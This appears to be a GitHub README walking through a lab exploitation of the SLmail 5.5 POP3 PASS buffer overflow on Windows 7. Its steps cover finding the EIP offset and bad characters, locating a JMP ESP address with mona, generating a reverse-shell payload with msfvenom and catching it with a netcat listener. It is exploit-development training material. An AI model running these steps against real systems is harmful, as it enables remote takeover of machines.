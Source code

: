# Remote-buffer-overflow

Windows exploitation using Remote buffer overflow vulnerability of Seatle Lab mail 5.5 
=====================================================================================

Remote buffer overflow on POP3 'PASS'of Seatle Lab mail 5.5
Windows x86 vulnerability (https://www.exploit-db.com/exploits/638)

Tools/ configuration used
-------------------------
Windows 7 32 bit
Kali linux 2020
VMware
Seatle Lab mail 5.5 (vulnerable software)(https://slmail.software.informer.com/5.5/)
Immunity debugger (python)  	(https://www.immunityinc.com/products/debugger/index.html)
mona.py				(https://github.com/corelan/mona)


------------------------------------------------
On windows 7:

Install Immuinity debugger(with python)
Copy mona.py to pyCommands folder located at Immunity debugger installation directory 
Install Seatle Lab mail 5.5 with default configuration

To ignore unwanted interuption:
	Disable firewall protection
	Stop automatic update
	Disconnect internet (set Host-only network connection)

Note Windows 7 ip=> (eg. 192.168.220.132)
port => 110

On Linux PC:

Six python script (intermediate) files used to create final exploitation python file
a0.py		to identify buffer overflow filled with 'A's
a1.py		to fill with pattern of characters to identify EIP location and buffer offset size
a2.py		to ensure to control EIP with 'B's
bad1.py		to Identify bad characters(01) with all possible values (to ignore in shellcode) 
bad2.py		to Identify bad characters(02) with all possible values (to ignore in shellcode) 
bad3.py		to Identify bad characters(03) with all possible values (to ignore in shellcode) 
(bad... if necessary)

xploit.py	Final exploitation script

--------------------------------------------------
On windows PC

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail 

-------------------------------------------------
Create an array of buffer with 'A's

==> run a0.py with arguments (Target IP and PORT)
(Eg. python a0.py 192.168.220.132 110)

crashed @ 2900

EIP overwritten with AAAA (41414141) 	(observe on Immunity Debugger)

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail 

--------------------------------------------------
Created unique pattern with a1.py to identify the location of EIP

>>>locate pattern_create
copy & paste ruby script with length of 2700
(/usr/share/metasploit-framsework/tools/exploit/pattern_create.rb -l 2700)

==> run a1.py with arguments (Target IP and PORT)

EIP overwritten with value		(observe on Immunity Debugger)
locate and copy EIP value on DBG (eg. 39694438)

>>>locate pattern_offset
copy & paste ruby script with EIP value
(/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39694438)

Note the offset exact match value (eg. 2606)

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail 

--------------------------------------------------
 
Create a buffer pattern to ensure the EIP control
( 2606*A + 4*B + 90*C)
"A"s     EIP      Payload(shellcode)

==> run a2.py  with arguments (Target IP and PORT)

EIP overwritten with BBBB (42424242) 	(observe on Immunity Debugger)
Note that we can control the EIP

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail  

----------------------------------------------------

Identify bad characters (01)
by sending all possible characters as payload part (skip \x00 -->common bad character)

==> run bad1.py with arguments (Target IP and PORT)

Identify firts missed bad character to skip in shellcode(eg. \x0a ) 

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail  

------------------------------------------------------

Identify bad characters (02)
by sending all possible characters except identified character (\x00 & \x0a) as payload part

==> run bad2.py with arguments (Target IP and PORT)

Identify next missed bad character to skip in shellcode(eg. \x0d ) 

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail  

------------------------------------------------------

Identify bad characters (03)
by sending all possible characters ecxept identified characters (\x00,\x0a & \x0d ) as payload part

==> run bad3.py with arguments (Target IP and PORT)

Identify next missed bad character to skip in shellcode(eg. no any character) 

start Seatle Lab mail 
(run exploit.py without Immunity DBG) 
------------------------------------------------------

to create final exploitation script

get address of jmp ESP

>>>locate nasm_shell
copy & paste ruby script
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

	nasm> jmp esp
	note value to identify the address using mona script (eg. FFE4)

On immunity debugger run mona scripts
	!mona modules
		note the slmfc.ll file - false value with Rebase, safeSEH, ALSR & NXcompat

	!mona find -s "\xff\xe4" -m slmfc.dll (FFE4 copied from nasm shell)
		copy the address of one of the result
 
                        ..........................

create shellcode using mfsvenom 	 

msfvenom -p windows/shell_reverse_tcp LHOST=<Target_ip_address> LPORT=<port> -f py -b '<bad Characters>' -e x86/shikata_ga_nai
(eg.
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.220.130 LPORT=443 -f py -b '\x00\x0a\x0d\' -e x86/shikata_ga_nai
)

create final overflow pattern 
	"A"s(offset size) + jmpESP (in little endian format) + nop sleds(\x90) + payload(shellcode)

EXPLOITAION:

open another terminal for netcat listener
==> nc -nlvp 443 
    (same port used in shellcode creation)

==> run exploit.py with arguments (Target IP and PORT)

DONE! GOT --> system reverse shell of target machine

References:
https://www.peerlyst.com/posts/hands-on-windows-exploit-development-stack-based-buffer-overflow-bof-chiheb-chebbi?trk=search_page_search_result
https://www.offensive-security.com/metasploit-unleashed/msfvenom/
http://sh3llc0d3r.com/exploit-development/
https://www.youtube.com/watch?v=OOkU7to0Ty4
https://stackoverflow.com/questions/5286117/incompatible-character-encodings-ascii-8bit-and-utf-8
